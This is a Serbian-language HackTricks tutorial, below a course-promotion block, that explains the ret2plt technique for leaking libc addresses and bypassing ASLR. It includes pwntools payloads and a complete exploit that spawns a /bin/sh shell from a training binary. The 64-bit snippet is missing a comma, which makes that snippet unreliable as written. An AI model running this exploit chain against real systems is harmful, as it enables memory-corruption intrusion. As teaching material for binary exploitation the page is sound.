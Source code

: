 # Ret2plt

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJE**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

Cilj ove tehnike bio bi **procuriti adresu funkcije iz PLT-a** kako biste mogli zaobići ASLR. Ovo je zato što ako, na primer, procurite adresu funkcije `puts` iz libc-a, možete zatim **izračunati gde je baza `libc`-a** i izračunati ofsete za pristup drugim funkcijama poput **`system`**.

Ovo se može uraditi sa `pwntools` payload-om kao što je ([**ovde**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):

```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```

Primetite kako se **`puts`** (koristeći adresu iz PLT-a) poziva sa adresom `puts` smeštenom u `GOT`-u. To je zato što će do trenutka kada `puts` odštampa ulaz `GOT`-a puts, ovaj **ulaz će sadržati adresu `puts` u memoriji**.

Takođe primetite kako se adresa `main` koristi u eksploataciji tako da kada `puts` završi izvršavanje, **binarni fajl ponovo poziva `main` umesto izlaska** (tako da će procurila adresa i dalje biti validna).

{% hint style="danger" %}
Primetite kako je potrebno da **binarni fajl ne bude kompajliran sa PIE** ili morate imati **pronađenu curenje informacija da biste zaobišli PIE** kako biste znali adresu `PLT`, `GOT` i `main`.
{% endhint %}

Možete pronaći [**potpuni primer ovog zaobilaženja ovde**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). Ovo je bio konačni eksploit iz tog primera:

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## Ostali primeri & Reference

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bita, omogućen ASLR ali bez PIE-a, prvi korak je popuniti prelivanje do bajta 0x00 kanara, a zatim pozvati puts i procuriti ga. Sa kanarom se kreira ROP gedžet za pozivanje puts-a kako bi procurio adresu puts-a iz GOT-a, a zatim ROP gedžet za pozivanje `system('/bin/sh')`.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bita, omogućen ASLR, bez kanara, prelivanje steka u glavnoj funkciji iz podfunkcije. ROP gedžet za pozivanje puts-a kako bi procurio adresu puts-a iz GOT-a, a zatim pozvao jedan gedžet.
